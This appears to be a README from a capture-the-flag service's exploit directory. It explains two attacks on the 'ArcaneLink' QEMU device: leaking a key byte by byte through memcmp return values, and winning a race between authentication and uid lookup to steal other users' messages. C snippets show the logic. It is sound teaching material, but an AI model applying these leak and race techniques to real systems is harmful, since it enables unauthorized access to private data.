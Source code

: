 # ArcaneLink - Exploits

The C files in this directory are the actual exploits to run inside QEMU guests
(the VMs managed by the service), while the Python files are simple wrappers
that connect to the service, compile, upload and run the exploit on the VMs.

Additionally, [`simple_attacker.py`](./simple_attacker.py) provides a simple
weaponization of the two exploits to run on multiple teams in parallel with
automatic flag submission.

**NOTE** that in order to cross compile the exploit for AArch64 you will need a
cross compilation toolchain:

```bash
sudo apt-get install gcc-aarch64-linux-gnu binutils-aarch64-linux-gnu
```


## Exploit 1 - Info leak in check key command

[`exploit_leak_key.c`](./exploit_leak_key.c) exploits the information leak
present in the ArcaneLink device through the CHKKEY command used to check the
validity of a given key for a given UID.

To leak the key we start with a key initialized to `0xffffffffffffffff`:
```c
uint8_t key[8] = {0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff};
```

Then for each byte in the key (8) we set the current byte to 0x0 and we invoke `CMD_CHK_KEY`, we will have 3 possible results:
```c
for (size_t i = 0; i < sizeof(key); i++) {
    key[i] = 0;

    // issue the cmd

    // ... 
    
    leak = ret & 0xffffff; // return value of the cmd

    // memcmp returned original_key[i] - 0x0
    if (leak > 0)
        key[i] = leak;
    // original_key[i] is 0x0, so memcmp returned original_key[i+1] - 0xff
    else if (leak < 0)
        key[i] = 0;
    // if ret = 0 we found the key, exit the loop
    else
        break;
}
```


## Exploit 2 - Race condition in message peek command

[`exploit_race_cond.c`](./exploit_race_cond.c) exploits the race condition
present in the ArcaneLink device when checking the supplied key in the PEEK
command.

```c
// Struct of the cmd request
typedef struct __attribute__((packed)) guest_req {
	uint32_t status;
	uint32_t cmd;
	uint32_t mid;
	uint32_t uid;
	uint64_t key;
	char buf[MSG_SZ];
} guest_req_t;
```

First we fill the current msg queue with many messages containing `"PWN"`, later we'll see why this is useful.  

Then, to win the race condition with the qemu thread we immediately start a thread that performs the `8-byte` write at `&req->mid`, this way we can bypass the check in `arcane_guest_write` and overwrite `uid` while the qemu thread is already running:
```c
// arcane_guest_write() {
// ...
    if (pgoff >= offsetof(guest_req_t, uid) &&
            pgoff < (offsetof(guest_req_t, uid) + sizeof_field(guest_req_t, uid))) {
// ...
// }
```

Our thread:
```c
static void *th(void *arg) {
	volatile guest_req_t *req = (volatile guest_req_t *)arg;
	puts("[thread] started");

	while (1) {
		*(volatile uint64_t *)&(req->mid) = ((uint64_t)target_uid) << 32 | target_msg_idx;
	}

	return NULL;
}
```

Note that in some lucky scenarios you could also win the race without using a thread (using the thread is much more reliable):
```c
// schedule CMD_PEEK_MSG
req->cmd = CMD_PEEK_MSG;

// potentially sleep for some usec

// perform write and overwrite uid
*(volatile uint64_t *)&(req->mid) = ((uint64_t)target_uid) << 32 | target_msg_idx;
```

After spawning `th` we repeatedly issue `CMD_PEEK_MSG` command in the hope that our thread changes the uid right after the `auth_uid` check but before the call to `get_qid_from_uid`:
```c
case CMD_PEEK_MSG: {
    key = req->key;

    // req->uid is read [1]
    if ((ret = auth_uid(req->uid, key)) != 0) {
        arcanelog("    [-] auth failed\n");
        ret |= STATUS_ERROR;
        break;
    }

    // HERE <-----

    // req->uid is read [2]
    qid = get_qid_from_uid(req->uid);
    if (qid == -1) {
        arcanelog("    [-] invalid uid\n");
        ret = STATUS_ERROR | ERR_INVALID_UID;
        break;
    }
```

Each time that we receive a message different from `"PWN"` we know that we stole a message from the message queue of the target uid, and in that case we increment the message index by 1 and continue the loop.

```c
// ...

fill_msgqueue(req);

// ...

pthread_create(&thread, NULL, th, (void*)req);

// ...

my_uid = getuid();
req->key = my_key;
req->mid = 0;

for (; target_msg_idx <= end_idx; target_msg_idx++) {
    size_t attempts;

    for (attempts = 1; ; attempts++) {
        req->uid = my_uid;
        req->cmd = CMD_PEEK_MSG;
        while ((status = req->status) == STATUS_BUSY) usleep(10);

        if ((status & 0xff000000) == STATUS_ERROR && (status & 0xffffff) == ERR_ENOMSG)
            goto no_more_msgs;

        if ((status & 0xff000000) == STATUS_OK) {
            // If we peek something other than the previously pushed msg,
            // we just stole a msg that is not ours
            if (strcmp((char *)req->buf, "PWN"))
                break;
        }
    }

    printf("[exploit] stolen msg at idx %" PRIu32 " (%" PRIu64 " attempts): %s\n", target_msg_idx, attempts, req->buf);
    success = true;
}
```

Note that the race can fail in two ways:  
1. Our thread changes `req->uid` before `auth_uid`, in this case the cmd will fail with `ERR_INVALID_KEY`  
2. Our thread changes `req->uid` after `get_qid_from_uid`, in this case the message will be popped from our queue  

We previously filled our message queue to distinguish between two cases:  

1. We won the race condition but the target msg has no more messages (`mid` is too big)  
2. We lost the race (previous case `2.`) and our message queue has no more messages (`mid` is too big)

By filling up our message queue we will never end in case `2.`, so whenever we receive a `ERR_ENOMSG` we know that we leaked all of the target's messages.  
